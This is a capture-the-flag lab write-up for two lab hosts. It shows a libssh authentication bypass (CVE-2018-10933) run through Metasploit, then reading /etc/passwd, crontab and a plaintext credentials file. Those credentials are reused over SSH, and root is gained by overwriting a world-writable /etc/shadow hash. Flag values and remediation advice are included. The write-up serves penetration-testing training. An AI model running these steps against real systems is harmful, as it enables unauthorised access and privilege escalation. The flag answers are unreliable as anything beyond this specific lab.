# CTF Report: Post-Exploitation I

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target 1:** target1.ine.local — libssh<br>
**Target 2:** target2.ine.local — SSH<br>
**Objective:** Use post-exploitation techniques to capture five flags.

## 1. Executive Summary

Target 1's SSH uses a vulnerable **libssh** (CVE-2018-10933), exploited for command execution
and a shell. Enumerating `/etc/passwd`, `/etc/group`, cron and `/etc/hosts` yields four flags
plus a `credentials.txt` on a user's Desktop. Those credentials log into Target 2, where a
world-writable **`/etc/shadow`** lets us set a known root password and read the final flag.

## 2. Target 1 — libssh

```bash
db_nmap -sV target1.ine.local
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass
```





Command execution via the bypass:



### Flags 1-4 — Enumeration

```bash
cat /etc/passwd     # Flag 1
```



```bash
cat /etc/group      # Flag 2
```



```bash
cat /etc/crontab /etc/cron.d/*   # Flag 3
```



```bash
cat /etc/hosts      # Flag 4
```



```
Flag 1: 259680604c8048689d1a20c8e676c6c7
Flag 2: 3eb3d24e1b404136af190c356d83a4ac
Flag 3: 384d57a924f04402b2fc8b9c242d2459
Flag 4: 6b5320158bb74f7b8f1909ce998dce62
```

### Leaked Credentials

A shell via `libssh_auth_bypass` reveals a credentials file.

```bash
cat /home/user/credentials.txt
# john:Pass@john123
```



## 3. Target 2 — Credential Reuse → root

```bash
db_nmap -sV target2.ine.local
ssh john@target2.ine.local      # Pass@john123
```





A world-writable `/etc/shadow`:

```bash
find / -not -type l -perm -o+w 2>/dev/null     # /etc/shadow
```



### Flag 5 — root via /etc/shadow

```bash
openssl passwd -1 -salt abc password123
# edit /etc/shadow -> replace root's hash
su root
cd /root ; cat flag5.txt
```





```
Flag 5: 52ee488ccd2e4d8abc03f67b0dd0faf5
```



## 4. Remediation Recommendations

1. **Upgrade libssh** past 0.8.x (CVE-2018-10933).
2. **Never store credentials in plaintext files**; don't reuse passwords across hosts.
3. **Fix `/etc/shadow` permissions** (`root:shadow`, `640`) and monitor file integrity.
4. **Keep flags/secrets out of world-readable config** and apply least privilege.
